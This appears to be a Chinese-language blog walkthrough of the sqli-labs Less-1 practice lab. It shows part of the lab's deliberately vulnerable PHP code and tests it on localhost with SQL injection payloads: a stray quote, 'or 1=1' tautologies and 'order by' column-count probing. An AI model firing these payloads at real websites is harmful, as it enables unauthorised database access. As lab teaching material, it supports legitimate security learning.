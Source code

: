 ~~~php+HTML
	{
	echo '<font color= "#FFFF00">';
	print_r(mysql_error());
	echo "</font>";  
	}
}
	else { echo "Please input the ID as parameter with numeric value";}

?>
</font> </div></br></br></br><center>
<img src="C:/Users/Administrator/images/Less-1.jpg" /></center>
</body>
</html>


~~~



 当使用http://127.0.0.1/Less-1/?id=1的时候：

<img src="C:/Users/Administrator/Desktop/%7B%7B%20site.url%20%7D%7D/assets/blog_images/sqli-labs_01_01.png" />

然后在后面加上'看下 

<img src="C:/Users/Administrator/Desktop/%7B%7B%20site.url%20%7D%7D/assets/blog_images/sqli-labs_01_02.png" />

报了sql语句的语法错误，因为没有过滤单引号，原来的查询语句是这样的：

sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";

SELECT * FROM users WHERE id ='$id' LIMIT 0,1   如果加了'之后就变成了' "   这个时候肯定就会报错的。

也可以使用如下进行检验：

http://127.0.0.1/Less-1/?id=1' or '1' = '1

实际查询语句是： SELECT * FROM users WHERE id = '1' or '1' = '1' LIMIT 0,1

或者是： http://127.0.0.1/Less-1/?id=1' or 1=1 --+

实际查询语句是： SELECT * FROM users WHERE id = '1' or 1=1 --+ LIMIT 0,1

使用order by 来判断users表中有几列：

http://127.0.0.1/Less-1/?id=1'order by 1%23                 %23就是#的编码

<img src="C:/Users/Administrator/Desktop/%7B%7B%20site.url%20%7D%7D/assets/blog_images/sqli-labs_01_03.png" />

http://127.0.0.1/Less-1/?id=1'order by 1,2,3%23

<img src="C:/Users/Administrator/Desktop/%7B%7B%20site.url%20%7D%7D/assets/blog_images/sqli-labs_01_04.png" />

在这里面，1，2，3都是正常的，到4的时候开始报错了

http://127.0.0.1/Less-1/?id=1'order by 1,2,3,4%23

<img src="C:/Users/Administrator/Desktop/%7B%7B%20site.url%20%7D%7D/assets/blog_images/sqli-labs_01_05.png" />
